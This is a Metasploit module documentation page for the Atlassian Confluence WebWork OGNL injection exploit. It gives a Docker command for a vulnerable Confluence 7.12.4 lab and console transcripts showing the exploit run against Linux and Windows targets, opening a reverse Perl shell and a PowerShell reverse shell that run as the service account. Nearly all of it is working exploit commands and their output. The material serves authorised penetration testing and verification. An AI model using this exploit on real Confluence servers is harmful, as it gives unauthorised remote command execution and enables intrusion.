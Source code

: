 ## Vulnerable Application

### Setup

Run the following [Docker] command to test Confluence **7.12.4**:

`docker run -dp 8090:8090 atlassian/confluence:7.12.4`

You will need to [complete setup] once the container has started.

[Docker]: https://hub.docker.com/r/atlassian/confluence
[complete setup]: https://confluence.atlassian.com/doc/confluence-setup-guide-135691.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Confluence 7.12.4 in [Docker]

```
msf > use exploit/multi/http/atlassian_confluence_webwork_ognl_injection
[*] Using configured payload cmd/unix/reverse_perl
msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > options

Module options (exploit/multi/http/atlassian_confluence_webwork_ognl_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8090             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/unix/reverse_perl (Unix Command)
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.1:62795 ) at 2021-10-14 16:31:23 -0500

whoami
confluence
^Z
Background session 1? [y/N]  y
```

### Confluence 7.12.4 on Windows Server 2016

```
msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set rhosts 172.16.57.9
rhosts => 172.16.57.9
msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set target 2
target => 2
msf exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell_reverse_tcp (Windows Command)
[*] Powershell session session 2 opened (172.16.57.1:4444 -> 172.16.57.9:61152 ) at 2021-10-14 16:31:59 -0500

PS C:\Program Files\Atlassian\Confluence> whoami
nt authority\network service
PS C:\Program Files\Atlassian\Confluence>
```
